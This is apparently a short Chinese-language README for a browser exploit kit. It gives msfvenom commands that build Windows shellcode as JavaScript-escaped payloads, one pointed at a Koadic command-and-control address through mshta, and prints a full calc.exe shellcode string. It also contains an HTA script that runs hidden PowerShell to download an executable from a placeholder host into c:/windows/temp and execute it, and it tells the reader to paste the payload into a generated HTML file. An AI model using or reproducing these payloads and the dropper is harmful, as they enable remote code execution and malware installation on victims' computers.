 

msfvenom -p windows/exec cmd='mshta koadic 的地址' -f js_le exitfunc=thread -a x86

测试payload
msfvenom -p windows/exec cmd=calc.exe -f js_le exitfunc=thread -a x86
%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u6a5d%u8d01%ub285%u0000%u5000%u3168%u6f8b%uff87%ubbd5%u1de0%u0a2a%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff%u6163%u636c%u652e%u6578%u4100

`hta code`
    <script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://xxx.com/xxx.exe\', \'c:/windows/temp/xxx.exe\'); c:/windows/temp/xxx.exe', 0);window.close();
    </script>
    
    
    
    
    生成后打开html文件夹更改166行左右的shellcode位置 填写msf生成的payload   
    自己看着改
    
    
    演示视频地址：https://pan.baidu.com/s/1eTezME-wh7_qNJaveNOyaw 密码：s0kq
